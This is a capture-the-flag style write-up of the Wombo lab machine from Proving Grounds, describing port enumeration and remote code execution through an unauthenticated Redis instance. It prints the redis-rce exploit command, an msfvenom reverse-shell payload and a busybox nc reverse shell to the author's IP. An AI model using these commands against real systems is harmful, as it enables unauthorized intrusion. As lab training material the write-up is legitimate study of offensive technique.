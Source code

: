 ```yaml
---
layout: writeup
title: Wombo - Proving Grounds
date: 2024-07-19 13:32:20 +0300
description: A Writeup of the Wombo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Redis]
---
```


Here's box on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/) we have Wombo from Proving Grounds. This box is rated as Easy, and the community rates it as Intermediate. Let's see how complicated I can make it for myself. And I'll kick things off with an nmap scan revealing: 

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8080/tcp  open  http-proxy
27017/tcp open  mongod
```

I begin by visiting ports 80 and 8080 while running directory scans in the background. Port 80 looks to be the default landing page for nginx, so we may have to wait for directory scans on that one. 

![Wombo1.png](/assets/images/Wombo/Wombo1.png){: .center-aligned width="600px"}


Port 8080 looks to be a web app called NodeBB. I click around on that for a while, but it doesn't look like there's much content here. I can create a user, and there is an upload page for a cover photo, but it does seem like it's restricted by file type. If we try uploading a php file for example, the option to crop comes before the final upload button which won't work if it's a php, so we can't make changes in Burp easily. I may have to come back to that. 

![Wombo2.png](/assets/images/Wombo/Wombo2.png){: .center-aligned width="600px"}


We also have a redis instance on port 6379. It does not require authentication, but enumerating it briefly doesn't reveal anything interesting. I'll have to try a few of the exploits from hacktricks on here like dumping the db, RCE with redis-rogue-server, PHP webshell, and template webshell. Unfortunately dumping the db reveals nothing, redis-rogue-server doesn't work, we can't upload a PHP webshell because the db is read only, and uploading a template doesn't work. 

I am a little tempted by MongoDB on port 27017, if only because the lab is called Wombo. It's just close enough. I am able to access it using mongo `192.168.185.69:27017`, but it requires authentication to show users, collections, or dbs. 

I spent a while trying to find anything to work with here. Port 80 shows nothing at all on directory scans. Port 8080 does return some directories from the NodeBB application, but there don't appear to be any juicy exploits with it, and we have no usernames or passwords to at least kick off a reasonable brute force with it. I can get no information from mongodb, it's not even clear that there actually are any non-empty db's. 

Turns out I had to combine exploits again as with [Sybaris](https://cagrigsby.github.io/writeups/2024-07-14-readys-proving-grounds/). There is an exploit called [Redis-RCE](https://github.com/Ridter/redis-rce), but the README.md links another exploit to get a required redis module from, and this link is broken. It turns out we can use the `exp.so` module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0)that we used in Sybaris and simply move it to the redis-rce folder. It's pretty annoying because I had tried to load it my kali, but this doesn't work because with Sybaris we uploaded it to an ftp server and were able to load it locally. The final command is:
`./redis-rce.py -r 192.168.185.69 -p 6379 -L 192.168.45.183 -P 6379 -f exp.so`

![Wombo3.png](/assets/images/Wombo/Wombo3.png){: .center-aligned width="600px"}

This shell had some weird behavior, for example no initial response to the `id` command, and it appeared that some commands were being returned only after a subsequent command was ran. As such, I decided to download another reverse shell and run it from this interactive shell. I used `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=27017 -f elf -o reverse27017.elf` and downloaded it, catching it from a penelope listener. 

![Wombo4.png](/assets/images/Wombo/Wombo4.png){: .center-aligned width="600px"}

Some other command line shells didn't work, but the busybox one actually did (`busybox nc 192.168.45.183 27017 -e /bin/bash`). I'd initially tried it over port 4444, and that wasn't going to work. 

Lessons learned: This was a pretty unsatisfying box for me. I had to combine exploits in a way that wasn't really intuitive, and I'm not sure how I would have done that without looking it up. The module we loaded could have just been packaged with the exploit rather than having a separate module associated with a broken link. So I guess the lesson is that if I need to exploit redis with a public exploit, I either need an an AMD machine or I need to remember to keep pulling the same malicious module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0). Which is indeed a lesson. 

